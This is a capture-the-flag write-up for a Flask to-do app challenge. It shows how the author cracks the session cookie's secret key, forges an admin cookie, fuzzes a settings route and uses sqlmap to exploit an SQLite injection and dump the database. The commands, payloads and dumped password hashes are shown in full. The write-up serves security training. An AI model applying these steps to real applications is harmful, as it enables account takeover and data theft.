



# todo list

Proposed difficulty: `Hard`

1 solve - 1000 points

```text
Jeg har udviklet en TODO-app, der har fået en del brugere. Den virker ret godt, selvom der er noget sikkerhed jeg mangler at kigge på, men mon ikke det flasker sig.

http://todolist.hkn
```

# Solution

## Getting admin

Let's start by registering a user. We are then presented with this page:



Here we can create tasks and not much more. As hinted to in the challenge description, the session cookie seems to a flask session cookie:

`session=.eJwlzjsOwjAMANC7eGaIkziOe5kq_gnWlk6Iu1MJvQu8D-x5xPmE7X1c8YD95bBBnTSWrVbKrGrEqy5i9qE2i4saS7SimFPqHBPFevJc7MwthPrqoot7KXJzMxoxMBp2sm7haWyJaCObk1AtJIHEmRKsSq4Jd-Q64_hvBL4_p3wvlQ.ZjzjBA.7YSDVHn2FRF6qSMDeB_hxoYd3Rw`

Let's use [noraj/flask-session-cookie-manager](https://github.com/noraj/flask-session-cookie-manager) to decode the cookie:

```sh
$  python3 flask_session_cookie_manager3.py decode -c .eJwlzjsOwjAMANC7eGaIkziOe5kq_gnWlk6Iu1MJvQu8D-x5xPmE7X1c8YD95bBBnTSWrVbKrGrEqy5i9qE2i4saS7SimFPqHBPFevJc7MwthPrqoot7KXJzMxoxMBp2sm7haWyJaCObk1AtJIHEmRKsSq4Jd-Q64_hvBL4_p3wvlQ.ZjzjBA.7YSDVHn2FRF6qSMDeB_hxoYd3Rw
b'{"_fresh":true,"_id":"2856aca30082bc57a2a577d6bc80d9bc79e30b1f89286819c4f78a7d773e954a49ba74009090dcc56e61e3145c4cedfc7cf11c6f3d5952059e157ff9e7bb5dbf","_user_id":"9"}'
```

It seems like we need to craft our own session cookie to change our user id. Let's try to use [mprunet/flask_util](https://github.com/mprunet/flask_utill) which is a tool for decoding an cracking flask session cookies. We can use the `bruteforce.py` script to do a dictionary attack to try to get the password:

```sh
$ python bruteforce.py ".eJwlzjsOwjAMANC7eGaIkziOe5kq_gnWlk6Iu1MJvQu8D-x5xPmE7X1c8YD95bBBnTSWrVbKrGrEqy5i9qE2i4saS7SimFPqHBPFevJc7MwthPrqoot7KXJzMxoxMBp2sm7haWyJaCObk1AtJIHEmRKsSq4Jd-Q64_hvBL4_p3wvlQ.ZjzjBA.7YSDVHn2FRF6qSMDeB_hxoYd3Rw" ~/Hacking/wordlists/rockyou.txt 
Secret key: password
```

Here we get that the secret key used to encode the cookie is password. Now that we have the secret key, we can use [noraj/flask-session-cookie-manager](https://github.com/noraj/flask-session-cookie-manager) again to encode our own cookie:

```sh
$ python flask_session_cookie_manager3.py encode -s password -t '{"_fresh":True,"_id":"2856aca30082bc57a2a577d6bc80d9bc79e30b1f89286819c4f78a7d773e954a49ba74009090dcc56e61e3145c4cedfc7cf11c6f3d5952059e157ff9e7bb5dbf","_user_id":"1"}'
.eJwlzjsOwjAMANC7eGaIkziOe5kq_gnWlk6Iu1MJvQu8D-x5xPmE7X1c8YD95bBBnTSWrVbKrGrEqy5i9qE2i4saS7SimFPqHBPFevJc7MwthPrqoot7KXJzMxoxMBp2sm7haWyJaCObk1AtJIHEmRKsSq4Jd-Q64_hvEL4_p2QvjQ.ZjzkqQ.FqwaLPudBvqcbQhJNda3QZPcRzo
```

By using this session cookie we are now admin!

## SQL injection

Now that we are admin, there is a new page that we can visit:



In here we have the following settings:



Let's see if there are any other settings that are not shown. Each setting has its own page such as `intro` being: `http://todolist.hkn/settings/edit/intro`.

After a bit of fuzzing i found this:

```sh
$ ffuf -w ~/Hacking/wordlists/directory-list-2.3-medium.txt -u 'http://todolist.hkn/settings/edit/FUZZ' -H "Cookie: session=.eJwlzjsOwjAMANC7eGaIkziOe5kq_gnWlk6Iu1MJvQu8D-x5xPmE7X1c8YD95bBBnTSWrVbKrGrEqy5i9qE2i4saS7SimFPqHBPFevJc7MwthPrqoot7KXJzMxoxMBp2sm7haWyJaCObk1AtJIHEmRKsSq4Jd-Q64_hvEL4_p2QvjQ.ZjzkqQ.FqwaLPudBvqcbQhJNda3QZPcRzo" -fc 302 -t 200

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://todolist.hkn/settings/edit/FUZZ
 :: Wordlist         : FUZZ: /home/dnorhoj/Hacking/wordlists/directory-list-2.3-medium.txt
 :: Header           : Cookie: session=.eJwlzjsOwjAMANC7eGaIkziOe5kq_gnWlk6Iu1MJvQu8D-x5xPmE7X1c8YD95bBBnTSWrVbKrGrEqy5i9qE2i4saS7SimFPqHBPFevJc7MwthPrqoot7KXJzMxoxMBp2sm7haWyJaCObk1AtJIHEmRKsSq4Jd-Q64_hvEL4_p2QvjQ.ZjzkqQ.FqwaLPudBvqcbQhJNda3QZPcRzo
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 302
________________________________________________

intro                   [Status: 200, Size: 2822, Words: 994, Lines: 115, Duration: 792ms]
'                       [Status: 500, Size: 2502, Words: 794, Lines: 67, Duration: 604ms]
:: Progress: [2483/220546] :: Job [1/1] :: 225 req/sec :: Duration: [0:00:10] :: Errors: 0 ::
```

It got an internal server error when requesting `http://todolist.hkn/settings/edit/'`. My first thought was that this might be an SQL injection. This happens as it tries to look up the settings value with an SQL query. This SQL query then fails as there is an invalid sql injection.

Let's try to get something working in `sqlmap`. We can tell sqlmap to try to inject the SQL injection in the URL by adding a `*` where it should insert the payload.

```log
$ sqlmap -u 'http://todolist.hkn/settings/edit/*' -H 'Cookie: session=.eJwlzjsOwjAMANC7eGaIkziOe5kq_gnWlk6Iu1MJvQu8D-x5xPmE7X1c8YD95bBBnTSWrVbKrGrEqy5i9qE2i4saS7SimFPqHBPFevJc7MwthPrqoot7KXJzMxoxMBp2sm7haWyJaCObk1AtJIHEmRKsSq4Jd-Q64_hvEL4_p2QvjQ.ZjzkqQ.FqwaLPudBvqcbQhJNda3QZPcRzo' --level 5 --risk 3
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.7.10#pip}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 17:07:48 /2024-05-09/

custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q] Y
[17:07:49] [INFO] testing connection to the target URL
[17:07:49] [CRITICAL] page not found (404)
it is not recommended to continue in this kind of cases. Do you want to quit and make sure that everything is set up properly? [Y/n] n
[17:07:50] [INFO] testing if the target URL content is stable
you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] Y
[17:07:57] [INFO] target URL content is stable
other non-custom parameters found. Do you want to process them too? [Y/n/q] Y
[17:08:03] [INFO] testing if URI parameter '#1*' is dynamic
got a 302 redirect to 'http://todolist.hkn/settings'. Do you want to follow? [Y/n] n
[17:08:06] [INFO] URI parameter '#1*' appears to be dynamic
[17:08:06] [WARNING] heuristic (basic) test shows that URI parameter '#1*' might not be injectable
[17:08:06] [INFO] testing for SQL injection on URI parameter '#1*'
[17:08:06] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[17:08:09] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[17:08:11] [INFO] URI parameter '#1*' appears to be 'OR boolean-based blind - WHERE or HAVING clause' injectable (with --code=200)
[17:08:12] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'SQLite' 
it looks like the back-end DBMS is 'SQLite'. Do you want to skip test payloads specific for other DBMSes? [Y/n] 

[17:08:18] [INFO] testing 'Generic inline queries'
[17:08:18] [INFO] testing 'SQLite inline queries'
[17:08:18] [INFO] testing 'SQLite > 2.0 stacked queries (heavy query - comment)'
[17:08:18] [INFO] testing 'SQLite > 2.0 stacked queries (heavy query)'
[17:08:18] [INFO] testing 'SQLite > 2.0 AND time-based blind (heavy query)'
[17:08:18] [INFO] testing 'SQLite > 2.0 OR time-based blind (heavy query)'
[17:08:18] [INFO] testing 'SQLite > 2.0 AND time-based blind (heavy query - comment)'
[17:08:18] [INFO] testing 'SQLite > 2.0 OR time-based blind (heavy query - comment)'
[17:08:18] [INFO] testing 'SQLite > 2.0 time-based blind - Parameter replace (heavy query)'
[17:08:18] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[17:08:18] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[17:08:19] [INFO] target URL appears to be UNION injectable with 2 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] 

[17:08:22] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql') 
[17:08:22] [INFO] testing 'Generic UNION query (12) - 21 to 40 columns'
[17:08:22] [INFO] testing 'Generic UNION query (12) - 41 to 60 columns'
[17:08:23] [INFO] testing 'Generic UNION query (12) - 61 to 80 columns'
[17:08:24] [INFO] testing 'Generic UNION query (12) - 81 to 100 columns'
[17:08:24] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
[17:08:24] [INFO] checking if the injection point on URI parameter '#1*' is a false positive
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 350 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: http://todolist.hkn/settings/edit/-7230' OR 1673=1673 OR 'RVWH'='Qjrg
---
[17:08:28] [INFO] testing SQLite
[17:08:28] [INFO] confirming SQLite
[17:08:28] [INFO] actively fingerprinting SQLite
[17:08:28] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[17:08:28] [WARNING] HTTP error codes detected during run:
404 (Not Found) - 8 times, 500 (Internal Server Error) - 181 times
[17:08:28] [INFO] fetched data logged to text files under '/home/dnorhoj/.local/share/sqlmap/output/todolist.hkn'
[17:08:28] [WARNING] your sqlmap version is outdated

[*] ending @ 17:08:28 /2024-05-09/
```

It found an SQL injection that it can explot. Let's just dump the entire database!

```sh
sqlmap -u 'http://todolist.hkn/settings/edit/*' -H 'Cookie: session=.eJwlzjsOwjAMANC7eGaIkziOe5kq_gnWlk6Iu1MJvQu8D-x5xPmE7X1c8YD95bBBnTSWrVbKrGrEqy5i9qE2i4saS7SimFPqHBPFevJc7MwthPrqoot7KXJzMxoxMBp2sm7haWyJaCObk1AtJIHEmRKsSq4Jd-Q64_hvEL4_p2QvjQ.ZjzkqQ.FqwaLPudBvqcbQhJNda3QZPcRzo' --level 5 --risk 3 --dump-all --threads 10
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.7.10#pip}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 17:09:54 /2024-05-09/

...

Database: <current>
Table: tasks
[12 entries]
+----+---------+--------+----------------------------------------------------------------------------+
| id | user_id | status | description                                                                |
+----+---------+--------+----------------------------------------------------------------------------+
| 1  | 1       | 1      | Implement app                                                              |
| 2  | 1       | 0      | Improve security                                                           |
| 3  | 2       | 0      | Find flags                                                                 |
| 4  | 7       | 0      | Schedule a dentist appointment for a check-up                              |
| 5  | 4       | 0      | Research and book accommodations for an upcoming trip                      |
| 6  | 7       | 0      | Create a meal plan for the week and grocery shop accordingly               |
| 7  | 7       | 0      | Review and update resume or CV                                             |
| 8  | 8       | 0      | Organize and declutter workspace                                           |
| 9  | 3       | 0      | Research and enroll in an online course to learn a new skill               |
| 10 | 6       | 0      | Go for a 30-minute walk                                                    |
| 11 | 3       | 0      | Start a journal to jot down thoughts and reflections each day              |
| 12 | 3       | 0      | Sort through your email inbox and unsubscribe from unnecessary newsletters |
+----+---------+--------+----------------------------------------------------------------------------+

...

Database: <current>
Table: users
[9 entries]
+----+----------------------------------------+----------+--------------------------------------------------------------+------------+------------+
| id | email                                  | is_admin | password                                                     | last_name  | first_name |
+----+----------------------------------------+----------+--------------------------------------------------------------+------------+------------+
| 2  | DDC{53cur17y_c0m1n6_500n}@todolist.hkn | 1        | $2b$12$6qhV1rcHIPR4l133vOoT4OO8JXjFgx3jc34saJnBcerpiPkaa0UEy | <blank>    | Admin      |
| 1  | admin@todolist.hkn                     | 0        | $2b$12$P4UPoU05T6I7cmnwEqasH.onLaT6nd7/1wAEONAreqYud4wYCnAbu | Young      | William    |
| 8  | dlee@example.net                       | 0        | $2b$12$RCxV/Ga0WNM2QD1i.vn6P.frV.5PYK76ixweqKcOXjhdoTJ8Vjgbe | Livingston | Jessica    |
| 9  | jens@jens.jens                         | 0        | $2b$12$n.aAzbpwuh54qAPGEWtWIe/3g8FE0KQSrh8TMtousFILtNMz0Hh9K | Guerrero   | Brittney   |
| 3  | millsanthony@example.com               | 0        | $2b$12$r3kAqOQRzHFHzVa8O/DWT.Jir2Wtsnwi56kcf6nqMKrBxmyeHmfsG | Hall       | Gregory    |
| 7  | mperez@example.net                     | 0        | $2b$12$4OA8vZe1VNtZRQaEZT9Pp.ujB53Jey5vMjHvQqZeGMOqwppGHAKd. | Johnson    | Kathryn    |
| 4  | padams@example.com                     | 0        | $2b$12$b8DJOyCOTeqOZFoZGJ/6N.SAo3//59/iZ.9.afZpKYMFBh6MoS2yG | Chan       | Jennifer   |
| 6  | pereztina@example.net                  | 0        | $2b$12$TRf0ptXCWUFU2TEhbXrEtuHM67QMksldJKvPxE7vd.Z.bE3ZYRMzm | Holmes     | Elizabeth  |
| 5  | rhodesrebecca@example.net              | 0        | $2b$12$h0vAd5YeOn8N97PMuhbq4.zJBg6iFExxbzre.Vb3LXwGGA8ILlqcS | jens       | jens       |
+----+----------------------------------------+----------+--------------------------------------------------------------+------------+------------+
```

The flag is in the email of the Admin user!

# Flag

`DDC{53cur17y_c0m1n6_500n}`
